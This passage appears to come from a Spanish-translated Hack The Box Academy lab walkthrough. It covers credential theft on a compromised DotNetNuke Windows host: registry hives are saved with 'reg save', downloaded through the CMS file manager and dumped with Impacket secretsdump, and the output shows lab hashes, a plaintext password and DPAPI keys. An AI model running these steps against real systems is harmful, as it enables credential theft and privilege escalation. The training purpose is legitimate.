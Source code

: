 Desde aquí, podemos realizar un poco de explotación y recuperar manualmente el contenido de la base de datos SAM y con ella, el hash de contraseña de administrador local.

  Explotación y escalada de privilegios

```cmd-session
c:\DotNetNuke\Portals\0> reg save HKLM\SYSTEM SYSTEM.SAVE
reg save HKLM\SYSTEM SYSTEM.SAVE

The operation completed successfully.

c:\DotNetNuke\Portals\0> reg save HKLM\SECURITY SECURITY.SAVE
reg save HKLM\SECURITY SECURITY.SAVE

The operation completed successfully.

c:\DotNetNuke\Portals\0> reg save HKLM\SAM SAM.SAVE
reg save HKLM\SAM SAM.SAVE

The operation completed successfully.
```

Ahora podemos modificar una vez más las extensiones de archivo permitidas para permitirnos bajar el`.SAVE`archivos. A continuación, podemos volver al`File Management`Página y descargue cada uno de los tres archivos a nuestro host de ataque.

![text](https://academy.hackthebox.com/storage/modules/163/download_sam.png)

Finalmente, podemos usar`secretsdump`Para volcar la base de datos SAM y recuperar un conjunto de credenciales de los secretos de LSA.

  Explotación y escalada de privilegios

```shell-session
xnoxos@htb[/htb]$ secretsdump.py LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE

Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xb3a720652a6fca7e31c1659e3d619944
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mpalledorous:1001:aad3b435b51404eeaad3b435b51404ee:3bb874a52ce7b0d64ee2a82bbf3fe1cc:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/hporter:$DCC2$10240#hporter#f7d7bba128ca183106b8a3b3de5924bc
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:3e002600200046005a003000460021004b00460071002e002b004d0042005000480045002e006c00280078007900580044003b0050006100790033006e002a0047004100590020006e002d00390059003b0035003e0077005d005f004b004900400051004e0062005700440074006b005e0075004000490061005d006000610063002400660033003c0061002b0060003900330060006a00620056006e003e00210076004a002100340049003b00210024005d004d006700210051004b002e004f007200290027004c00720030005600760027004f0055003b005500640061004a006900750032006800540033006c00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:cb8a6327fc3dad4ea7c84b88c7542e7c
[*] DefaultPassword 
(Unknown User):Gr8hambino!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6968d50f5ec2bc41bc207a35f0392b72bb083c22
dpapi_userkey:0xe1e7a8bc8273395552ae8e23529ad8740d82ea92
[*] NL$KM 
 0000   21 0C E6 AC 8B 08 9B 39  97 EA D9 C6 77 DB 10 E6   !......9....w...
 0010   2E B2 53 43 7E B8 06 64  B3 EB 89 B1 DA D1 22 C7   ..SC~..d......".
 0020   11 83 FA 35 DB 57 3E B0  9D 84 59 41 90 18 7A 8D   ...5.W>...YA..z.
 0030   ED C9 1C 26 FF B7 DA 6F  02 C9 2E 18 9D CA 08 2D   ...&...o.......-
```